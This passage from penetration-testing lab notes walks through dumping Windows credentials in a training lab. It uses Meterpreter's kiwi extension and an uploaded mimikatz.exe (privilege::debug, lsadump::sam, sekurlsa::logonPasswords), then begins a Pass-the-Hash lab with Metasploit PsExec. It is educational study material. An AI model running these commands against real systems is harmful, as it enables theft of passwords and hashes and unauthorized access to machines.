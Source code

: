 ```bash
pgrep lsass
migrate 776

# Meterpreter: x64/windows
```

```bash
load kiwi
```

```bash
creds_all
lsa_dump_sam
lsa_dump_secrets
```

### Hash Dumping - Mimikatz.exe

```bash
cd C:\\
mkdir Temp
cd Temp
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
shell
```

- Run `mimikatz.exe`

```bash
mimikatz.exe
privilege::debug
	Privilege '20' OK
# I have the required privileges for hash extraction from memory
```

- Dump the cache of the `lsass` process

```bash
lsadump::sam
lsadump::secrets
sekurlsa::logonPasswords
```

------

## Lab 5 - Pass-the-Hash with PsExec

> 🔬 [Windows: Meterpreter: Kiwi Extension](https://attackdefense.com/challengedetails?cid=2340) - same lab as Lab 4
>
> - Target IP: `10.2.28.123`
> - Check the [🔬Lab 3 - Pass-the-hash lab here](../1-system-attack/windows-attacks/creds-dump.md#lab-3-pass-the-hash) for full description
> - Metasploit **PsExec** module

```bash
service postgresql start && msfconsole -q
```
